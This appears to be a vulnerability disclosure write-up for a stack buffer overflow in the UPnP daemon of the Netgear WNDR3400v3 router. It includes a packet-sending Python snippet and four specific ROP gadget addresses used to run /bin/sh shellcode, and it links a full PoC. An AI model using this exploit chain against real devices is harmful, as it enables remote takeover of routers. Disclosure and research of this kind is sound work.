



# Netgear (WNDR3400v3) Buffer Overflow Via UPnP SSDP #

**Vendor**：Netgear

**Product**: N600 WiFi Dual Band Router (WNDR3400v3)

**Firmware Version**: V1.0.1.18_1.0.63

**Vendor Homepage**: https://www.netgear.com/support/product/WNDR3400v3.aspx

**CVE**: Pending

**NVD**: Pending

**PoC Script**: [netgear_upnp_poc.py](https://github.com/reevesrs24/CVE/blob/master/Netgear_WNDR2400v3/upnp_stack_overflow/netgear_upnp_poc.py)
## Vulnerability details ##

1. There exists a stack-based buffer overflow in the ssdp_http_method_check function in the upnpd binary.


2. Sending a crafted UPnP SSDP packet allows for the $ra register to be overwritten.
```python
    ### UPnP Architecture Specs ###
    # M-SEARCH - Method for search requests
    # HOST - Multicast channed and port reserved for SSDP
    # MAN - Required by HTTP Exension Framework, defines the scope (namespace) of the extension
    # MX - MAximum wait time in seconds
    # ST: Required search target, pre defined values
    SSDP = payload

    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.settimeout(5)
    s.sendto(SSDP, ('239.255.255.250', 1900) )
    s.close()
```
3.  While the stack is executable it does however employ ASLR. 

4. A ROP chain can be used to execute shellcode on the stack.  Several libraries such as libc.so.0, libnat.so and libcrypt.so.0 
have static address spaces which can be used to chain ROP gadgets.
```
ROP Gadget 1
-------------
libnat.so - 0x0000c488 

addiu $a0, $zero, 0xf 
move $t9, $s6 
jalr $t9 
move $a2, $zero 

ROP Gadget 2
-------------
libc.so.0 - 0x00038800

move $t9, $s2 
lw $ra, 0x28($sp)
lw $s3, 0x24($sp) 
lw $s2, 0x20($sp) 
lw $s1, 0x1c($sp) 
lw $s0, 0x18($sp)
jr $t9 
addiu $sp, $sp, 0x30

ROP Gadget 3
-------------
libcrypt.so.0 - 0x0000203c

move $t9, $s2
jalr $t9
addiu $a1, $sp, 0x2

ROP Gadget 4
-------------
libc.so.0 - 0x00032a6c

move $t9, $a1
addiu $a0, $a0, 0x38
jr $t9 
move $a1, $a2
```
5.  This ROP chain can be used to execute shellcode on the stack.  PoC shellcode '/bin/sh' written by Sanguine (https://www.exploit-db.com/exploits/35868)
was used to test this (My shellcode game is weak). Below the [sh] process was executed. Although this process immediately terminates once gdb is exited.    

6.  Much of this analysis was modeled after a great write up by Lyon Yang titled "Exploiting Buffer Overflows on MIPS Architectures". (https://gsec.hitb.org/materials/sg2015/whitepapers/Lyon%20Yang%20-%20Advanced%20SOHO%20Router%20Exploitation.pdf)
